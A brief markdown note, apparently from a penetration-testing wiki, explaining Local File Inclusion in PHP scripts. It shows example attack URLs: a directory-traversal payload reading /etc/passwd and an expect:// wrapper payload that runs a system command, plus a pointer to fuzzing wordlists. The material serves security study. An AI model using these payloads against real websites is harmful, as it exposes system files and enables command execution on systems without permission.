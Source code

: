 LFI (Local File Inclusion) allows you to read the targets system files from website.

http://website.com/stuff/script.php?page=index.html

Now if its vulnerable you can turn it into this

http://website.com/stuff/script.php?page=../../../../../../../../../etc/passwd

And that will give output of /etc/passwd

## PHP Expect Wrapper
PHP expect:// allows execution of system commands, unfortunately the expect PHP module is not enabled by default.

http://website.com/stuff/script.php?page=expect://ls

## Interesting files
You can find wordlists in /usr/share/wordlists/SecLists/Fuzzing/LFI/ for interesting files you can fuzz with, or check out [[Interesting files]]